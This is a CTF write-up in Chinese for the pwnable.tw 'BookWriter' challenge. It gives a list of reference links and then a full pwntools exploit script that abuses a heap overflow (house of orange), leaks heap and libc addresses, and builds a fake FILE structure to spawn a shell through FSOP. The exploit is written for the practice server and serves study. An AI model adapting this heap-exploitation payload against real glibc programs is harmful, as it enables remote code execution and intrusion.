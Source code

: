 ```yaml
---
title: 和媳妇一起学Pwn 之 BookWriter
date: 2020-04-04 00:00:00
categories:
- CTF/Pwn
tags: pwnable.tw  BookWriter
---
```


> 本题总结点较多，之后总结

- 题目地址：[https://pwnable.tw/challenge/#24](https://pwnable.tw/challenge/#24)

## 参考

- [house of orange 漏洞](http://blog.eonew.cn/archives/1093)
- [IO FILE 学习笔记](https://veritas501.space/2017/12/13/IO%20FILE%20%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/)

- [pwnable.tw 1~10题 writeup](https://veritas501.space/2018/02/21/pwnable.tw%201~10%E9%A2%98%20writeup/)
- [pwnable.tw 11~18题 writeup](https://veritas501.space/2018/03/04/pwnable.tw%2011~18%E9%A2%98%20writeup/)

- [pwnable.tw部分writeup(不定期更新)](https://0xffff.one/d/410)
- [pwnable.tw部分writeup(不定期更新)_Vol.2](https://0xffff.one/d/469)

- [BookWriter Writeup](http://weaponx.site/2018/06/11/BookWriter-Writeup-pwnable-tw/)
- [pwnable tw bookwriter writeup](https://sunichi.github.io/2018/07/02/pwnable-tw-bookwriter/)
- [BookWriter 解题思路](http://p4nda.top/2017/12/15/pwnable-tw-bookwriter/)
- [pwnable.tw bookwriter writeup – house of orange 的巧妙利用](http://blog.eonew.cn/archives/1140)
- [pwnable.tw中的bookwriter](https://www.lyyl.online/2019/10/08/pwnable-tw%E4%B8%AD%E7%9A%84bookwriter/)
- [从BookWriter看house_of_orange原理](https://bbs.pediy.com/thread-223334.htm)
- [Pwnable.tw之BookWriter](https://bbs.pediy.com/thread-226694.htm)


## exp

```python
from pwn import *

context(arch='amd64',os='linux',log_level='debug')
myelf  = ELF("./bookwriter")
libc   = ELF("./libc_64.so.6")
io     = remote("chall.pwnable.tw",10304)

uu64        = lambda data          :  u64(data.ljust(8, b'\0'))
sla         = lambda delim,data    :  (io.sendlineafter(delim, data))
sa          = lambda delim,data    :  (io.sendafter(delim, data))
start       = lambda author        :  (sla("Author :",author))
add         = lambda size,content  :  (sla("choice :","1"),sla("page :",str(size)),sa("Content :",content))
view        = lambda num           :  (sla("choice :","2"),sla("page :",str(num)))
edit        = lambda num,content   :  (sla("choice :","3"),sla("page :",str(num)),sla("Content:",content))
show        = lambda               :  (sla("choice :","4"))

# fill author  
start("x"*60+'xuan')

# overlap and modify top chunk size 
add(0x18,'a')
edit(0,'b'*0x18)
edit(0,'\x00'*0x18+'\xe1\x0f')

# leak heap
show();io.recvuntil("xuan")
heap_addr = uu64(io.recvuntil("\n")[:-1])
sla(") ",'0')

# move top chunk to unsorted bin
add(0x1000,'a')
for i in range(7):
    add(0x18,'xuanxuan')

# leak libc
view(2);io.recvuntil("xuanxuan")
libc.address = uu64(io.readline()[:-1])-0x3c4188

# make fake file 
data = "\x00"*(0x20*7+0x10)
payload  = "/bin/sh\x00" + p64(0x61) 
payload += p64(0) + p64(libc.symbols['_IO_list_all']-0x10) 
payload += p64(0) + p64(1)
payload = payload.ljust(0xd8, "\x00")
payload += p64(heap_addr + 0x20*7+0x10 + 0xd8 + 0x8)+p64(libc.symbols['system'])*4

# use unsorted bin attack and FSOP to getshell
edit(0,data+payload)
sla("choice :","1");sla("page :",str(0x10))
io.interactive()
```